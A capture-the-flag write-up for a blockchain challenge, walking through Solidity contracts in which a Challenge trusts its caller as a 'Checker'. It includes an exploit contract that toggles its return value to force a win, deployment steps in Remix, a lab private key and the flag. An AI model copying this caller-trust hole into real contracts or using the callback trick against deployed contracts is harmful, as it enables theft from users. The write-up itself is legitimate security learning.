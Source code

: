 ### setup.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Chal.sol";
contract Setup {
    Challenge public immutable instance;
    constructor() payable {
        instance = new Challenge();
    }
    function isSolved() public view returns (bool) {
        return instance.win();
    }
}
```

### Chall.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
interface Checker {
    function isCorrectGuess(uint256) external returns (bool);
}
contract Challenge {
    bool public win;
    uint256 public guess;
    function makeAGuess(uint256 _guess) public {
        Checker checker = Checker(msg.sender);
        if (!checker.isCorrectGuess(_guess)) {
            guess = _guess;
            win = checker.isCorrectGuess(guess);
        }
    }
}
```

we got a server which will manage instance for our challenge at by generating a secret from `get_ticket.py` 
`nc blockchain.bbctf.fluxus.co.in 5001`

![][./images/instance_server.png]
launch a instance and you will get 
``` python
uuid = "5759cffc-c638-451e-b41b-b8a15469ad49"
rpc_endpoint = "http://chal.bbctf.fluxus.co.in:8545/5759cffc-c638-451e-b41b-b8a15469ad49"
privatekey = "0xa9622978b37457dc8d5bb76996c8a166bc04fe8db0907dcba98ee7d7f4009f35"
youraddress = "0x5f20EdbCAa04777a636fF9564Ea9a96bA82af5A4"
setupcontract = "0x9C7fF8BCF007AA7041346f1c68C149b1469eA983"
```
## Ananlysis
- In `setup.sol` if you call `instance` it will return the address of the chall contract.
- `chall.sol` has wierd behaviour frist it will check wetather checker isCorrectGuess(_guess_) is `false` and to win next step it should be `true`.
-  `msg.sender` is address of sender so definatly we have to make a exploit contract.
- we have something called interface which we will get back to it later.
## Failed steps
## Research
I don't know much about solidity so i started learning how interface works.
[Contracts — Solidity 0.8.17 documentation (soliditylang.org)](https://docs.soliditylang.org/en/v0.8.17/contracts.html#interfaces)
https://www.youtube.com/watch?v=tbjyc-VQaQo
https://www.youtube.com/watch?v=hzH6fgKhSMg
Here is quick summary
- You can use contract address to directly talk with the contract instead of importing or adding its code to our contact.
- In this challenge we have to specify the address of the interface contract with `msg.sender`.

## Exploit planning

we have to make a new contract which will call `makeAGuess` in `chall.sol` due to that  `isCorrectGuess`  in same contract should be called which initially returns `false` and in next call it should return `true`.

### exploit.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
import "./Chal.sol";
contract Attack{
    bool public retBool = true;
    Challenge public target;
    constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
    function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
    function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
}
```
ok! it overwelming let's see it line by line
```solidity
import "./Chal.sol";
```
refrence with `setup.sol` we can get a instance of challange 

lets see `Attack` contract line by line.
```solidity
Challenge public target;
bool public retBool = true;
```
here we are making a object of `Challenge` class so that we can call `makeAGuess`.
next a toggler to return bool value
```solidity
 constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
```
`target = Challenge(_targetAddress);` will create a reference to the contract `Challenge`. Doing so allows you to call public functions of that contract. Now you can call `target.whateverFunctionItHas()` which will call the function on the contract at the address.
```solidity
function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
```
this function when called frist time returns `false` and next time return `true`
```solidity
function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
```
this function initaits our attack by calling `target.makeAGuess(_guess)`->`!checker.isCorrectGuess(_guess)` ->`checker.isCorrectGuess(_guess)`-> win is True now

## Exploit!!!

![][./images/setting_rpc.png]
Add your PRC Url and ChainId
![][./images/import_Account.png]
import your account to metamask
![][./images/got_account.png]
now open Remix connect it with your wallet and account. intracct with deployed setup contract by passting its address to AtAddress input box with `setup_contract` address by opening `setup.sol`
now you will get address of challenge.
![][./images/setup_contract.png]
now add Challenge contract which you can have to intract.
![][./images/chall_contract.png]
now lets deploy attack contract by giving address which we got from instance in setup.
![][./images/attack_contract.png]
just give some value to `guessIt` and call get the flag by connecting to server and clicking on get flag with your `team_secret` 
![][./images/instance_server.png]
FLAG:
	```flag{A1l_17s_r3quirED_is_a_1iI7lE_5oliDity}```
That's how we got second blood and only 2 teams solved it. I learned so much while solving this challenge but I got deep understanding after writing this writeup.
